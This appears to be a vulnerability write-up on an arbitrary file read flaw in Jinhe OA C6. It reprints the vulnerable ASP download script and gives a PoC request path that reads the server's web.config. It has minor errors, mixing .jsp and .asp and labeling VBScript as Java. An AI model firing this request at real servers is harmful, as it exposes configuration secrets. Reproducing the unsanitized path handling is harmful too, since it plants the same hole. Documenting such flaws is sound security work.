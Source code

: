 # Jinhe OA C6 download.jsp arbitrary file reading vulnerability

## Vulnerability Description

There is arbitrary file reading vulnerability in Jinhe OA C6 download.jsp file. The attacker can obtain sensitive information in the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Kin and OA</span>

## Network surveying and mapping



## Vulnerability reappears

The login page is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210609083645344.png)



The vulnerable file is download.asp

```java
<%       
	Response.Buffer     =     true       
	Response.Clear       
	      
	dim     url       
	Dim     fso,fl,flsize       
	dim     Dname       
	Dim     objStream,ContentType,flName,isre,url1       
	'*********************************************调用时传入的下载文件名       
	Dname=trim(request("filename"))       
	'******************************************************************       
	If     Dname<>""     Then       
	'******************************下载文件存放的服务端目录       
							url=server.MapPath(Dname)       
							'url=server.MapPath("./")&"\Jhsoft.Web.module\testbill\dj"&Dname     '这边做了一下改动By   Fanshui   
	'***************************************************       
	End     If       
	'Response.write   url   
	'response.end   

	Set     fso=Server.CreateObject("Scripting.FileSystemObject")       
	Set     fl=fso.getfile(url)       
	flsize=fl.size       
	flName=fl.name       
	Set     fl=Nothing       
	Set     fso=Nothing     
	'Response.write flName
	'Response.write flsize
%>    


<%       
    Set		objStream     =     Server.CreateObject("ADODB.Stream")
	'objStream.Mode 　  = 　  3 　
	objStream.Type     =     1
    objStream.Open        
    objStream.LoadFromFile     url       


    Select     Case     lcase(Right(flName,     4))       
        Case     ".asf"       
                                ContentType     =     "video/x-ms-asf"       
        Case     ".avi"       
                                ContentType     =     "video/avi"       
        Case     ".doc"       
                                ContentType     =     "application/msword"       
        Case     ".zip"       
                                ContentType     =     "application/zip"       
        Case     ".xls"       
                                ContentType     =     "application/vnd.ms-excel"       
        Case     ".gif"       
                                ContentType     =     "image/gif"       
        Case     ".jpg",     "jpeg"       
                                ContentType     =     "image/jpeg"       
        Case     ".wav"       
                                ContentType     =     "audio/wav"       
        Case     ".mp3"       
                                ContentType     =     "audio/mpeg3"       
        Case     ".mpg",     "mpeg"       
                                ContentType     =     "video/mpeg"       
        Case     ".rtf"       
                                ContentType     =     "application/rtf"       
        Case     ".htm",     "html"       
                                ContentType     =     "text/html"       
        Case     ".txt"       
                                ContentType     =     "text/plain"       
        Case     Else       
                                ContentType     =     "application/octet-stream"       
    End     Select       



	Response.AddHeader     "Content-Disposition",     "attachment;     filename="     &     flName       
    Response.AddHeader     "Content-Length",     flsize       

    Response.Charset     =     "UTF-8"       
    Response.ContentType     =     ContentType   

	Response.BinaryWrite     objStream.Read       
    Response.Flush       
    response.Clear()       
    objStream.Close       
    Set     objStream     =     Nothing       

%>
```



The requested POC is

```plain
/C6/Jhsoft.Web.module/testbill/dj/download.asp?filename=/c6/web.config
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210609085943874.png)



Read web.config

```plain
/C6/Jhsoft.Web.module/testbill/dj/download.asp?filename=/c6/web.config
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210609091013697.png)